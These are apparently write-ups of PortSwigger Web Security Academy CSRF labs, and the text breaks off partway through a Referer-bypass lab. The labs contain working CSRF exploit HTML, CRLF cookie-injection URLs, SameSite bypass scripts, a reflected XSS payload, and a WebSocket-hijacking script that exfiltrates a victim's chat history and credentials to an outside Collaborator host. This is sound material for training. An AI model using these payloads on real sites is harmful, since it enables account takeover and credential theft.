







# Cross-site request forgery (CSRF)

## CSRF vulnerability with no defenses

### Description

[This lab](https://portswigger.net/web-security/csrf/lab-no-defenses)'s email change functionality is vulnerable to CSRF.  

### Reproduction and proof of concept

1. Log in and intercept updating email (which is vulnerable):


2. To create the exploit, put the correct parameters in the template given in [Cross-site request forgery (CSRF)](https://portswigger.net/web-security/csrf):

```text
<html>
    <body>
        <form action="https://0abe00ae04c3c7a8c1a5356100cc00d2.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

3. Paste the exploit in the `body` field of the exploit server form (link to exploit server is up top):


4. To verify that the exploit works, try it by clicking **View exploit**, turning intercept on again, and checking the resulting HTTP request and response. 
5. Click **Deliver to victim** to solve the lab. 

### Exploitability

An attacker needs to craft some HTML that uses a CSRF attack to change the viewer's email address and upload it to the exploit server. An account with credentials `wiener:peter` is available.

----

## CSRF where token validation depends on request method

### Description

[This lab](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-validation-depends-on-request-method)'s email change functionality is vulnerable to CSRF. It attempts to block CSRF attacks, but only applies defenses to certain types of requests. 

### Reproduction and proof of concept

1. Open Burp's browser and log in to your account. Submit the "Update email" form, and find the resulting request in your Proxy history.
2. Send the request to Burp Repeater and observe that if you change the value of the csrf parameter then the request is rejected.
3. Use "Change request method" on the context menu to convert it into a GET request and observe that the CSRF token is no longer verified.
4. If you're using Burp Suite Professional, right-click on the request, and from the context menu select Engagement tools / Generate CSRF PoC. Enable the option to include an auto-submit script and click "Regenerate".

Alternatively, if you're using Burp Suite Community Edition, use the following HTML template. You can get the request URL by right-clicking and selecting "Copy URL".

```text
<form action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="anything%40web-security-academy.net">
</form>
<script>
        document.forms[0].submit();
</script>
```

5. Go to the exploit server, paste your exploit HTML into the **Body** field, and click **Store**.
6. To verify if the exploit will work, try it out by clicking **View exploit** and checking the resulting HTTP request and response.
7. Click **Deliver to victim**.

### Exploitability

An attacker needs to use the exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address. There is an accounts on the application that can be used to design the attack. The credentials are`wiener:peter`.

----

## CSRF where token validation depends on token being present

### Description

[This lab](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-validation-depends-on-token-being-present)'s email change functionality is vulnerable to CSRF. 

### Reproduction and proof of concept

1. Open Burp's browser and log in to the `wiener` account. Submit the "Update email" form, and find the resulting request in Proxy history.
2. Send the request to Burp Repeater and check that when changing the value of the `csrf` parameter, the request is rejected.
3. Delete the `csrf` parameter entirely to check that the request is now accepted.
4. When using Burp Suite Professional, right-click on the request, and from the context menu select **Engagement tools -> Generate CSRF PoC**. Enable the option to include an **auto-submit script** and click **Regenerate**.

When using Burp Suite Community Edition, use the following HTML template, and get the request URL by right-clicking and selecting **Copy URL**.

```text
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="$param1name" value="$param1value">
</form>
<script>
    document.forms[0].submit();
</script>
```

5. Go to the exploit server, paste the exploit HTML into the **Body** field, and click **Store**.
6. Try it out by clicking **View exploit** and check the resulting HTTP request and response.
7. Click **Deliver to victim**.

### Exploitability

An attacker needs to use the exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address. There is an accounts on the application that can be used to design the attack. The credentials are`wiener:peter`.

----

## CSRF where token is not tied to user session

### Description

[This lab](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-not-tied-to-user-session)'s email change functionality is vulnerable to CSRF. It uses tokens to try to prevent CSRF attacks, but they aren't integrated into the site's session handling system.  

### Reproduction and proof of concept

1. Open Burp's browser and log in to the `wiener` victim account. Submit the "Update email" form, intercept the resulting request, and send it to the Repeater to check vulnerabilities: remove csrf token, change request method, change csrf token, and whether token is tied to user session.
2. Make a note of the value of the CSRF token, then drop the request.
3. Open a private/incognito browser window, log in to Portswigger, then on the lab site into the `carlos` attacker account, and copy its token (using Web Developer tools).
4. Observe that if you swap the CSRF token with the value from the other account, then the request is accepted.
5. Create and host a proof of concept exploit as described in the solution to the CSRF vulnerability with no defenses lab (above). The CSRF tokens are single-use, so get a fresh one from the incognito window `carlos` account.



6. **Store** the exploit, then click **Deliver to victim**.

### Exploitability

An attacker needs to use the exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address. There are two accounts on the application that can be used to design the attack. The credentials are as follows, `wiener:peter` and `carlos:montoya`.

----

## CSRF where token is tied to non-session cookie

### Description

[This lab](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-tied-to-non-session-cookie)'s email change functionality is vulnerable to CSRF. It uses tokens to try to prevent CSRF attacks, but they aren't fully integrated into the site's session handling system. 

### Reproduction and proof of concept

1. Open Burp's browser and log in to the `wiener` account. Submit the "Update email" form, and find the resulting request in your Proxy history.
2. Send the request to Burp Repeater and observe that changing the `session` cookie logs you out, but changing the `csrfKey` cookie merely results in the `csrf` token being rejected. This suggests that the `csrfKey` cookie may not be strictly tied to the session. To check `csrf` cookie and `csrf` token are tied, enter an invalid token. The request is not accepted.
3. Open a private/incognito browser window, log in to Portswigger, then on the lab site into the `carlos` attacker account, and send a fresh update email request into Burp Repeater.
4. Swapping the `csrfKey` cookie and `csrf` parameter from the `carlos` account to the `wiener` account (or vv), the request is accepted.

```text
HTTP/1.1 302 Found
Location: /my-account
Connection: close
Content-Length: 0
```

Swapping only one of the two, the request is not accepted. The two are tied.

5. Close the Repeater tab and incognito browser.
6. Back in the original browser in the `wiener` account, do a search, send the resulting request to Burp Repeater. Check that the search term gets reflected in the `Set-Cookie` header. 

```text
GET /?search=whatever HTTP/1.1
Host: 0a8a007003328fbbc0520eb3006500e7.web-security-academy.net
Cookie: session=3434rpqGQke3AkVlNlulO9qFJKzTjK4J; csrfKey=h8xkUPRUr4PbtkKwRm6bORpJx5qWNibu
...
```

Because the search function has no CSRF protection, this can be used to inject cookies into the victim user's browser.

7. Create a URL that uses this vulnerability to inject a `csrfKey` cookie from the carlos attacker account into the victim's browser:

```text
/?search=test%0d%0aSet-Cookie:%20csrfKey=JZdIUDJnjrR2QPnOBOVp9z5VukuYTpf4%3b%20SameSite=None
```

Results:

```text
HTTP/1.1 200 OK
Set-Cookie: LastSearchTerm=test
Set-Cookie: csrfKey=JZdIUDJnjrR2QPnOBOVp9z5VukuYTpf4; SameSite=None; Secure; HttpOnly
```
    
8. Create and host a proof of concept exploit as described in the solution to the CSRF vulnerability with no defenses lab (above), ensuring that you include your CSRF token. The exploit should be created from the email change request.
9. Remove the auto-submit `script` block and replace it with the `/?search=test%0d%0aSet-Cookie:%20csrfKey=JZdIUDJnjrR2QPnOBOVp9z5VukuYTpf4%3b%20SameSite=None`, and change the `csrf` token to the tied `csrfKey` one of the attacker:

```text
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0a8a007003328fbbc0520eb3006500e7.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test&#64;normal&#45;user&#46;net" />
      <input type="hidden" name="csrf" value="JZdIUDJnjrR2QPnOBOVp9z5VukuYTpf4" />
      <input type="submit" value="Submit request" />
    </form>
    
  </body>
</html>
```

**Copy HTML** and put it in the `body` of the **Exploit server** form:



10. **Store** the exploit in the exploit server of the lab, then click **Deliver to victim**.

### Exploitability

An attacker needs to use the exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address. There are two accounts on the application that can be used: `wiener:peter` (victim) and `carlos:montoya` (attacker).

### Impact

If an attacker can change the email address of another user, he/she can log in as that user and gain access to the account and all of its data.

----

## CSRF where token is duplicated in cookie

### Description

[This lab](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-duplicated-in-cookie)'s email change functionality is vulnerable to CSRF. It attempts to use the insecure "double submit" CSRF prevention technique. 

### Reproduction and proof of concept

1. Open Burp's browser and log in to your account. Submit the "Update email" form, and find the resulting request in your Proxy history.
2. Send the request to Burp Repeater and observe that the value of the `csrf` body parameter is simply being validated by comparing it with the `csrf` cookie value.
3. Perform a search, send the resulting request to Burp Repeater, and observe that the search term gets reflected in the `Set-Cookie` header. Since the search function has no CSRF protection, it can be used to inject cookies into the victim user's browser.
4. Create a URL that uses this vulnerability to `inject` a fake `csrf` cookie into the victim's browser:

```text
/?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None
```
    
5. Create and host a proof of concept exploit as described in the solution to the CSRF vulnerability with no defenses lab (above), ensuring that your CSRF token is set to "fake". The exploit should be created from the email change request.
6. Remove the auto-submit `script` block and instead add the following code to inject the cookie:

```text

```

**Copy HTML** and put it in the `body` of the **Exploit server** form:



7. **Store** the exploit, then click **Deliver to victim**.

### Exploitability

An attacker needs to use the exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address, and access to two accounts. 

----

## SameSite Lax bypass via method override

### Description

[This lab](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-lax-bypass-via-method-override)'s change email function is vulnerable to CSRF.

### Reproduction and proof of concept

#### Study the change email function

1. In Burp's browser, log in to the `wiener` account and change the email address.
2. In Burp, go to the **Proxy -> HTTP history** tab.
3. Study the `POST /my-account/change-email` request and notice that this doesn't contain any unpredictable tokens, so it may be vulnerable to CSRF if you can bypass the `SameSite` cookie restrictions.
4. Look at the response to the `POST /login` request. Notice that the website doesn't explicitly specify any `SameSite` restrictions when setting session cookies. As a result, the browser will use the default `Lax` restriction level.

This means the session cookie will be sent in cross-site `GET` requests, as long as they involve a top-level navigation.

#### Bypass the SameSite restrictions

1. Send the `POST /my-account/change-email` request to Burp Repeater.
2. In Burp Repeater, right-click on the request and select **Change request method**. Burp automatically generates an equivalent GET request.
3. Send the request. The endpoint only allows POST requests.
4. Try overriding the method by adding the `_method` parameter to the query string:

```text
GET /my-account/change-email?email=oioioi%40web-security-academy.net&_method=POST HTTP/1.1
```

5. Send the request. This seems to have been accepted by the server.
6. In the browser, go to the "MyAccount" page and confirm that the email address has changed.

#### Craft an exploit

1. In the browser, go to the exploit server.
2. In the Body section, create an HTML/JavaScript payload that induces the viewer's browser to issue the malicious GET request. This must cause a top-level navigation in order for the session cookie to be included:

```text
<script>
    document.location = "https://0a4d0003036b19ecc578289c00c700e6.web-security-academy.net/my-account/change-email?email=evil@web-security-academy.net&_method=POST";
</script>
```

3. Store and view the exploit yourself. Confirm that this has successfully changed the email address on the target site.



4. Deliver the exploit to the victim to solve the lab.

### Exploitability

An attacker needs to have an account.

----

## SameSite Strict bypass via client-side redirect

### Description

[This lab](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-client-side-redirect)'s change email function is vulnerable to CSRF. 

### Reproduction and proof of concept

#### Study the change email function

1. In Burp's browser, log in to the `wiener` account and change its email address.
2. In Burp, go to the **Proxy -> HTTP history** tab.
3. Study the `POST /my-account/change-email` request and notice that this doesn't contain any unpredictable tokens. It may be vulnerable to CSRF if you can bypass any `SameSite` cookie restrictions.
4. Look at the response to the `POST /login` request. The website explicitly specifies `SameSite=Strict` when setting session cookies. This prevents the browser from including these cookies in cross-site requests.

#### Identify a suitable gadget

1. In the browser, go to one of the blog posts and post an arbitrary comment. Observe that you are initially sent to a confirmation page at `/post/comment/confirmation?postId=x` but, after a few seconds, you are taken back to the blog post.
2. In Burp, go to the proxy history and notice that this redirect is handled client-side using the imported JavaScript file `/resources/js/commentConfirmationRedirect.js`.
3. Study the JavaScript and notice that this uses the `postId` query parameter to dynamically construct the path for the client-side redirect.
4. In the proxy history, right-click on the `GET /post/comment/confirmation?postId=x` request and select **Copy URL**.
5. In the browser, visit this URL, but change the `postId` parameter to an arbitrary string.

```text
/post/comment/confirmation?postId=foo
```
    
6. Observe that you initially see the post confirmation page before the client-side JavaScript attempts to redirect you to a path containing the injected string `/post/foo`.
7. Try injecting a path traversal sequence so that the dynamically constructed redirect URL will point to your account page:

```text
/post/comment/confirmation?postId=1/../../my-account
```
    
8. Observe that the browser normalises this URL and successfully takes you to the MyAccount page. This confirms that the `postId` parameter can be used to elicit a `GET` request for an arbitrary endpoint on the target site.

#### Bypass the SameSite restrictions

1. In the browser, go to the exploit server and create a script that induces the viewer's browser to send the GET request you just tested:

```text
<script>
    document.location = "https://0add007d0376cc05c083db48006a005c.web-security-academy.net/post/comment/confirmation?postId=../my-account";
</script>
```

2. Store and view exploit.
3. Observe that when the client-side redirect takes place, you still end up on your logged-in account page. This confirms that the browser included your authenticated session cookie in the second request, even though the initial comment-submission request was initiated from an arbitrary external site.

#### Craft an exploit

1. Send the `POST /my-account/change-email` request to Burp Repeater.
2. In Burp Repeater, right-click on the request and select **Change request** method. Burp automatically generates an equivalent `GET` request.
3. Send the request. Observe that the endpoint allows you to change your email address using a `GET` request.
4. Go back to the exploit server and change the `postId` parameter in your exploit so that the redirect causes the browser to send the equivalent GET request for changing your email address:

```text
<script>
    document.location = "https://0add007d0376cc05c083db48006a005c.web-security-academy.net/post/comment/confirmation?postId=1/../../my-account/change-email?email=gotcha%40web-security-academy.net%26submit=1";
</script>
```

Note: include the `submit` parameter and URL encode the ampersand delimiter to avoid breaking out of the `postId` parameter in the initial setup request.

   

5. Test the exploit and confirm that it has successfully changed the email address.
6. Deliver the exploit to the victim. After a few seconds, the lab is solved. 

### Exploitability

An attacker needs to have an account.

----

## SameSite Strict bypass via sibling domain

### Description

[This lab](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-sibling-domain)'s live chat feature is vulnerable to [cross-site WebSocket hijacking (CSWSH)](https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking).

### Reproduction and proof of concept

#### Study the live chat feature

1. In Burp's browser, go to the live chat feature and send a few messages.
2. In Burp, go to the **Proxy -> HTTP history** tab and find the WebSocket handshake request. This should be the most recent `GET /chat` request.
3. Notice that this doesn't contain any unpredictable tokens, so may be vulnerable to CSWSH if you can bypass any `SameSite` cookie restrictions.
4. In the browser, refresh the live chat page.
5. In Burp, go to the **Proxy -> WebSockets history** tab. When refreshing the page, the browser sends a `READY` message to the server. This causes the server to respond with the entire chat history.

#### Confirm the CSWSH vulnerability
 
1. In Burp, go to the **Collaborator** tab and click **Copy to clipboard**. 
2. In the browser, go to the **exploit server** and use the following template to create a script for a CSWSH proof of concept:

```text
<script>
    var ws = new WebSocket('wss://YOUR-LAB-ID.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://YOUR-COLLABORATOR-PAYLOAD.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```

3. **Store** and **view the exploit**.
4. In Burp, go back to the Collaborator tab and click Poll now. Observe that you have received an HTTP interaction, which indicates that you've opened a new live chat connection with the target site.
5. Notice that although you've confirmed the CSWSH vulnerability, you've only exfiltrated the chat history for a brand new session, which isn't particularly useful.
6. Go to the **Proxy > HTTP history** tab and find the WebSocket handshake request that was triggered by the script. This should be the most recent `GET /chat` request.
7. Notice that your session cookie was not sent with the request.
8. In the response, notice that the website explicitly specifies `SameSite=Strict` when setting session cookies. This prevents the browser from including these cookies in cross-site requests.

#### Identify an additional vulnerability in the same "site"

1. In Burp, study the proxy history and notice that responses to requests for resources like script and image files contain an `Access-Control-Allow-Origin` header, which reveals a sibling domain at `cms-YOUR-LAB-ID.web-security-academy.net`.
2. In the browser, visit this new URL to discover an additional login form.
3. Submit some arbitrary login credentials and observe that the username is reflected in the response in the `Invalid username` message.
4. Try injecting an XSS payload via the `username` parameter, for example:

```text
<script>alert(1)</script>
```
    
5. Observe that the `alert(1)` is called, confirming that this is a viable reflected XSS vector.
6. Send the `POST /login` request containing the XSS payload to Burp Repeater.
7. In Burp Repeater, right-click on the request and select **Change request** method to convert the method to `GET`. Confirm that it still receives the same response.
8. Right-click on the request again and select **Copy URL**. Visit this URL in the browser and confirm that you can still trigger the XSS. As this sibling domain is part of the same site, you can use this XSS to launch the CSWSH attack without it being mitigated by SameSite restrictions.

#### Bypass the SameSite restrictions

1. Recreate the CSWSH script tested on the exploit server earlier.

```text
<script>
    var ws = new WebSocket('wss://YOUR-LAB-ID.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://YOUR-COLLABORATOR-PAYLOAD.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```

2. URL encode the entire script.
3. Go back to the exploit server and create a script that induces the viewer's browser to send the `GET` request just tested, but use the URL-encoded CSWSH payload as the `username` parameter, for example:

```text
<script>
    document.location = "https://cms-YOUR-LAB-ID.web-security-academy.net/login?username=YOUR-URL-ENCODED-CSWSH-SCRIPT&password=anything";
</script>
```

4. Store and view the exploit.
5. In Burp, go back to the Collaborator tab and click Poll now. Observe that you've received a number of new interactions, which contain your entire chat history.
6. Go to the **Proxy -> HTTP history** tab and find the WebSocket handshake request that was triggered by your script. This should be the most recent `GET /chat` request.
7. Confirm that this request does contain your `session` cookie. As it was initiated from the vulnerable sibling domain, the browser considers this a same-site request.

#### Deliver the exploit chain

1. Go back to the exploit server and deliver the exploit to the victim.
2. In Burp, go back to the Collaborator tab and click Poll now.
3. Observe that you've received a number of new interactions.
4. Study the HTTP interactions and notice that these contain the victim's chat history.
5. Find a message containing the victim's username and password.
6. Use the newly obtained credentials to log in to the victim's account and the lab is solved.

### Exploitability

An attacker needs to use an exploit server to perform a CSWSH attack that exfiltrates the victim's chat history to the default Burp Collaborator server. The chat history contains the login credentials in plain text. 

----

## SameSite Lax bypass via cookie refresh

### Description

[This lab](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-cookie-refresh)'s change email function is vulnerable to [CSRF](https://portswigger.net/web-security/csrf). 

### Reproduction and proof of concept

#### Study the change email function

1. In Burp's browser, log in via your social media account and change your email address.
2. In Burp, go to the **Proxy -> HTTP history** tab.
3. Study the P`OST /my-account/change-email` request and notice that this doesn't contain any unpredictable tokens, so may be vulnerable to CSRF if you can bypass any `SameSite` cookie restrictions.
4. Look at the response to the `GET /oauth-callback?code=[...]` request at the end of the OAuth flow. Notice that the website doesn't explicitly specify any SameSite restrictions when setting session cookies. As a result, the browser will use the default `Lax` restriction level.

#### Attempt a CSRF attack

1. In the browser, go to the exploit server.
2. Use the following template to create a basic CSRF attack for changing the victim's email address:

```text
<script>
    history.pushState('', '', '/')
</script>
<form action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="foo@bar.com" />
    <input type="submit" value="Submit request" />
</form>
<script>
    document.forms[0].submit();
</script>
```

3. Store and view the exploit. What happens next depends on how much time has elapsed since logging in:

* If it has been longer than two minutes, you will be logged in via the OAuth flow, and the attack will fail. In this case, repeat this step immediately.
* If you logged in less than two minutes ago, the attack is successful and your email address is changed. From the **Proxy -> HTTP history** tab, find the `POST /my-account/change-email` request and confirm that the `session` cookie was included even though this is a cross-site `POST` request.

#### Bypass the SameSite restrictions

1. In the browser, notice that if you visit `/social-login`, this automatically initiates the full `OAuth` flow. If you still have a logged-in session with the `OAuth` server, this all happens without any interaction.
2. From the proxy history, notice that every time you complete the `OAuth` flow, the target site sets a new `session` cookie even if you were already logged in.
3. Go back to the exploit server.
4. Change the JavaScript so that the attack first refreshes the victim's session by forcing their browser to visit `/social-login`, then submits the email change request after a short pause. The following is a possible approach:

```text
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="pwned@web-security-academy.net">
</form>
<script>
    window.open('https://YOUR-LAB-ID.web-security-academy.net/social-login');
    setTimeout(changeEmail, 5000);

    function changeEmail(){
        document.forms[0].submit();
    }
</script>
```

5. Note that we've opened the `/social-login` in a new window to avoid navigating away from the exploit before the change email request is sent.
6. Store and view the exploit. Observe that the initial request gets blocked by the browser's popup blocker.
7. Observe that, after a pause, the CSRF attack is still launched. However, this is only successful if it has been less than two minutes since your cookie was set. If not, the attack fails because the popup blocker prevents the forced cookie refresh.

#### Bypass the popup blocker

1. Realize that the popup is being blocked because you haven't manually interacted with the page.
2. Tweak the exploit so that it induces the victim to click on the page and only opens the popup once the user has clicked. The following is one possible approach:

```text
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="pwned@portswigger.net">
</form>
<p>Click anywhere on the page</p>
<script>
    window.onclick = () => {
        window.open('https://YOUR-LAB-ID.web-security-academy.net/social-login');
        setTimeout(changeEmail, 5000);
    }

    function changeEmail() {
        document.forms[0].submit();
    }
</script>
```

3. Test the attack again while monitoring the proxy history in Burp.
4. When prompted, click the page. This triggers the `OAuth` flow and issues you a new session cookie. After 5 seconds, notice that the CSRF attack is sent and the `POST /my-account/change-email` request includes the new `session` cookie.
5. Go to the MyAccount page and confirm that the email address has changed.
6. Go back to the exploit server and deliver the exploit to the victim. After a short pause, the lab is solved.

### Exploitability

An attacker needs to have a social media account and use an exploit server to host the attack. The lab supports OAuth-based login, and the attacker can log in via a social media account with credentials: `wiener:peter`.

----

## CSRF where Referer validation depends on header being present

### Description

[This lab](https://portswigger.net/web-security/csrf/bypassing-referer-based-defenses/lab-referer-validation-depends-on-header-being-present)'s email change functionality is vulnerable to CSRF. It attempts to block cross domain requests but has an insecure fallback. 

### Reproduction and proof of concept

1. Open Burp's browser and log in to your account. Submit the "Update email" form, and find the resulting request in your Proxy history.
2. Send the request to Burp Repeater and observe that if you change the domain in the Referer HTTP header then the request is rejected.
3. Delete the Referer header entirely and observe that the request is now accepted.
4. Create and host a proof of concept exploit as described in the solution to the CSRF vulnerability with no defenses lab (above). Include the following HTML to suppress the Referer header:

```text
<meta name="referrer" content="no-referrer">
```

    

